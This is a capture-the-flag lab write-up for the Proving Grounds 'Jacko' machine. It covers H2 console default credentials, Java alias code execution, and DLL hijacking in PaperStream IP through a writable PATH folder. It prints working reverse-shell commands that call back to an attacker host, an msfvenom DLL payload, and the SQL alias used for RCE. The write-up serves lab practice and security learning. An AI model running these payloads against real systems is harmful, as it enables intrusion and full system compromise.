





# Jacko - Proving Grounds Practice

> **Kill Chain Summary**: Port 8082 exposes H2 Database Web Console -> Default credentials (sa / blank) -> Native Java evaluation via JNIScriptEngine triggers remote code execution -> Reverse shell as tony -> Program Files enumeration identifies vulnerable PaperStream IP service -> Registry PATH inspection reveals world-writable directory (C:\JavaTemp\) -> Overcoming 32-bit architecture mismatch with x86 payload -> System DLL Hijacking -> SYSTEM Shell.

| Property | Value |
|---|---|
| **Target Name** | Jacko |
| **Platform** | Proving Grounds Practice |
| **OS** | Windows 10 (Build 18363) |
| **Difficulty** | Medium |
| **Status** | Rooted |
| **Key Techniques** | H2 Database Default Credentials, JNIScriptEngine Java RCE (CVE-2018-14335), PaperStream IP DLL Hijacking (CVE-2018-16156), Writable System PATH Exploitation |

---

## 1. Reconnaissance and Enumeration

### 1.1 Port Scanning (Nmap)

We execute a full TCP port scan against the target:

```bash
sudo nmap -p- --min-rate 1000 -T4 -Pn $IP -oA nmap/allports
```

**Open Ports Summary:**
```text
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8082/tcp  open  blackice-alerts
9092/tcp  open  XmlIpcRegSvc
```

---

### 1.2 Web and H2 Database Enumeration

- **Port 80:** Static landing page referencing an underlying H2 Database instance:


- **Port 8082:** Exposed H2 Database web management console:


Testing default administrative credentials (`sa` with an empty password):


Authentication succeeds, granting direct SQL console access to H2 Database version `1.4.199`.

---

## 2. Initial Access

### 2.1 H2 Database RCE (CVE-2018-14335 and JNIScriptEngine)

H2 Database allows administrators to define custom Java user-defined functions (aliases) that map directly to Java code execution:



To establish an interactive reverse shell:
1. Host `nc.exe` via an SMB share on Kali using Impacket:
   ```bash
   impacket-smbserver share $(pwd) -smb2support
   ```

2. Start a Netcat listener on Kali:
   ```bash
   sudo nc -lvnp 4444
   ```

3. Define and execute the Java evaluation alias directly in the H2 SQL console:
   ```sql
   CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
   CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //KALI_IP/share/nc.exe -e cmd.exe KALI_IP 4444").getInputStream()).useDelimiter("\\Z").next()');
   ```

Connection received on Kali:
```cmd
Microsoft Windows [Version 10.0.18363.836]
C:\Program Files (x86)\H2\service> whoami
jacko\tony
```

Checking user flag:
```cmd
type C:\Users\tony\Desktop\local.txt
[FLAG REDACTED]
```

---

## 3. Privilege Escalation

### 3.1 Internal Enumeration: PaperStream IP

Inspecting installed software in `C:\Program Files (x86)`:

```cmd
dir "C:\Program Files (x86)"
Common Files
fiScanner
H2
PaperStream IP
```

The presence of `fiScanner` and `PaperStream IP` points to a known DLL hijacking vulnerability in the Fujitsu PaperStream IP driver service (**CVE-2018-16156** / EDB-ID 49382). During startup or scanning events, the service looks for `UninOldIS.dll` across directories in the system `PATH`.



---

### 3.2 Identifying a Writable Directory in the System PATH

We inspect the system-wide `PATH` variable in the registry:

```cmd
reg query "HKLM\System\CurrentControlSet\Control\Session Manager\Environment" /v Path
# Path: C:\JavaTemp\;C:\Program Files (x86)\Common Files\Oracle\Java\javapath;C:\Windows\system32;...
```

Notice that `C:\JavaTemp\` appears at the front of the system `PATH`.

Checking directory permissions with `icacls`:

```cmd
icacls C:\JavaTemp\
# C:\JavaTemp\ NT AUTHORITY\Authenticated Users:(I)(M)
```

Authenticated users possess **Modify (M)** permissions over `C:\JavaTemp\`.

---

### 3.3 Architecture Mismatch Gotcha (x86 vs x64)

PaperStream IP runs as a 32-bit service within `Program Files (x86)`. Compiling a 64-bit (`x64`) DLL will fail because 32-bit processes cannot load 64-bit dynamic libraries.

Generate a 32-bit (`x86`) reverse shell DLL with msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp -f dll -o UninOldIS.dll LHOST=KALI_IP LPORT=8082
```

Transfer the payload to `C:\JavaTemp\`:

```cmd
copy \\KALI_IP\share\UninOldIS.dll C:\JavaTemp\UninOldIS.dll
```

---

### 3.4 Service Trigger and SYSTEM Shell

Start a listener on port 8082 on Kali:

```bash
sudo nc -lvnp 8082
```

When the PaperStream IP service restarts or triggers its scanning event:

```cmd
listening on [any] 8082 ...
connect to [KALI_IP] from [192.168.x.x]
Microsoft Windows [Version 10.0.18363.836]

C:\Windows\system32> whoami
nt authority\system
```

Checking root flag:
```cmd
type C:\Users\Administrator\Desktop\proof.txt
[FLAG REDACTED]
```

---

## 4. Useful Commands Summary

```bash
# H2 SQL Console RCE Alias
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("command").getInputStream()).useDelimiter("\\Z").next()');

# Query System Environment PATH from CMD
reg query "HKLM\System\CurrentControlSet\Control\Session Manager\Environment" /v Path

# Check directory NTFS permissions
icacls C:\TargetFolder

# Generate 32-bit reverse shell DLL
msfvenom -p windows/shell_reverse_tcp -f dll -o payload.dll LHOST=[KALI_IP] LPORT=[PORT]
```

---

## 5. Key Takeaways and Lessons Learned

1. **Process Architecture Alignment:** Operating on a 64-bit OS does not guarantee all services are 64-bit. When targeting software installed under `Program Files (x86)`, payloads must be compiled in 32-bit (`x86`) architecture.
2. **Inspect System PATH Permissions:** Non-standard directories located in the system `PATH` (e.g., `C:\JavaTemp\`, `C:\Python27\`) should always be audited with `icacls`. If low-privileged accounts can write to any folder preceding `C:\Windows\system32` in the search order, DLL search-order hijacking can lead directly to SYSTEM execution.
3. **Database Native Execution:** Administrative access to lightweight relational database consoles (H2, Derby, SQLite) frequently enables code execution via user-defined functions and custom Java classes.

---

### Tags
#windows #h2-database #rce #dll-hijacking #cve-2018-16156 #paperstream #path-hijacking #architecture-gotcha #medium #pg-practice #rooted
